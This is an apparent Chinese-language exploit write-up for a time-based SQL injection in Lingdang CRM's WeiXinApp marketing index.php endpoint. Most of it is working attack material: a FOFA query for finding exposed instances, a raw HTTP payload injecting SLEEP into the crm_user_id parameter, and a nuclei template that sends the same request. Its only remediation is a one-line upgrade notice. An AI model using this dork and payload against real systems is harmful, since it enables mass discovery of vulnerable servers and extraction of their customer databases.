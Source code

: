 ﻿@[toc]
## 免责申明
本文章仅供学习与交流，请勿用于非法用途，均由使用者本人负责，文章作者不为此承担任何责任
## 漏洞描述
灵当CRM系统是一款功能全面、易于使用的客户关系管理（CRM）软件，由上海灵当信息科技有限公司开发。该系统专为以销售和服务业务为主的中小型企业设计，旨在帮助这些企业实现销售、服务、财务等一体化管理，提升整体运营效率，在index.php接口存在sql注入漏洞，通过延时注入可以获取数据库的数据

## 搜索语法
fofa
```
body="crmcommon/js/jquery/jquery-1.10.1.min.js"
```
## 漏洞复现
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/1ea543388e3342b2b0c38eeb3afb76a4.png)
payload
```
GET /crm/WeiXinApp/marketing/index.php?module=WxOrder&action=getOrderList&crm_user_id=1%20AND%20(SELECT%209552%20FROM%20(SELECT(SLEEP(2)))x) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36

```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/3fdf32f793ec40e19d00cd8c1a8716a5.png)

## nuclei
```yaml
id: template-id

info:
  name: Template Name
  author: '30842'
  severity: info
  description: description
  reference:
    - https://
  tags: tags

http:
  - raw:
      - |+
        GET /crm/WeiXinApp/marketing/index.php?module=WxOrder&action=getOrderList&crm_user_id=1%20AND%20(SELECT%209552%20FROM%20(SELECT(SLEEP(2)))x) HTTP/1.1
        Host:
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - code
      - type: status
        status:
          - 200
```

## 修复建议
升级到最新版本
